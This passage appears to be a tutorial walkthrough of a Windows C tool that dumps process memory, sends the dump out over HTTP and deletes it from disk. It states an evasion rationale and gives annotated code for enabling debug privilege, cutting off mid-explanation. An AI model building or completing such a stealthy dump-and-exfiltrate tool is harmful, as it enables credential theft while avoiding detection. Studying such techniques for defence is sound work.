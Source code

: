 This approach avoids leaving a persistent dump file: the dump only exists momentarily on disk, is read into memory, sent out, then deleted. Using a one-shot send avoids chunked or iterative writes that might truncate or reveal patterns at multiple stages.

* * *

#### Code Walkthrough

Below is a conceptual outline of the code, annotated to explain each part. (Omitted includes/pragmas, but assume linking against `DbgHelp.lib` and `Winhttp.lib`.)

* * *

#### 1. `EnableDebugPrivilege()`

```
BOOL EnableDebugPrivilege() {
    HANDLE hToken;
    TOKEN_PRIVILEGES tp;
    LUID luid;
    if (!OpenProcessToken(GetCurrentProcess(),
                          TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY,
                          &hToken)) {
        return FALSE;
    }
    if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luid)) {
        CloseHandle(hToken);
        return FALSE;
    }
    tp.PrivilegeCount           = 1;
    tp.Privileges[0].Luid       = luid;
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);
    BOOL ok = (GetLastError() == ERROR_SUCCESS);
    CloseHandle(hToken);
    return ok;
}
```

**Line-by-line Explanation:**

**. OpenProcessToken**

```
if (!OpenProcessToken(GetCurrentProcess(),TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY,&hToken)) {return FALSE; }
```

- `GetCurrentProcess()`: Returns a pseudo-handle referring to the current process.
- `TOKEN_ADJUST_PRIVILEGES:` lets us enable/disable privileges in this token.
- `TOKEN_QUERY` : allows querying token information.

`&hToken`: out parameter. On success, it receives a handle to the process’s access token.

- **LookupPrivilegeValue**

```
if (!LookupPrivilegeValue(NULL,SE_DEBUG_NAME, &luid)) {CloseHandle(hToken);     return FALSE; }
```
